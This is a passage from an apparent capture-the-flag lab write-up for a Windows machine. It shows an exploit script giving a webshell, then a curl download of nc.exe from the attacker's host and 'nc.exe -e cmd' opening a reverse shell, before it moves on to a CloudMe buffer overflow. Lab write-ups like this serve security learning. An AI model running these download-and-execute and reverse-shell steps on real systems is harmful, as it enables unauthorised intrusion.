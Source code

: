 and I run the script 

```bash
$ ./48506.py http://10.10.10.198:8080/
...<snip>...
[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload>
```

to upgrade the webshell to a normal shell I will download nc on the target machine.

first I start a nc listener 
```bash
$ rlwrap -cAr nc -lvnp 9001
```

I serve nc.exe in a web server through python
```bash
python3 -m http.server 80 
```

on the target machine I use curl to download the executable and run it 
```bash
C:\xampp\htdocs\gym\upload> curl http://10.10.14.13/nc.exe -O 


C:\xampp\htdocs\gym\upload> dir
 Directory of C:\xampp\htdocs\gym\upload

20/08/2024  20:01    <DIR>          .
20/08/2024  20:01    <DIR>          ..
20/08/2024  19:56                53 kamehameha.php
20/08/2024  20:01            28,160 nc.exe
               2 File(s)         28,213 bytes
               2 Dir(s)   7,236,259,840 bytes free

C:\xampp\htdocs\gym\upload> nc.exe -e cmd 10.10.14.13 9001 
```

and I get a shell as shaun
```bash
$ rlwrap -cAr nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.198] 49686
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>whoami
whoami
buff\shaun
```


### CloudMe buffer overflow

Enumerating the home directory of "shaun" I find a CloudMe_1112.exe file 
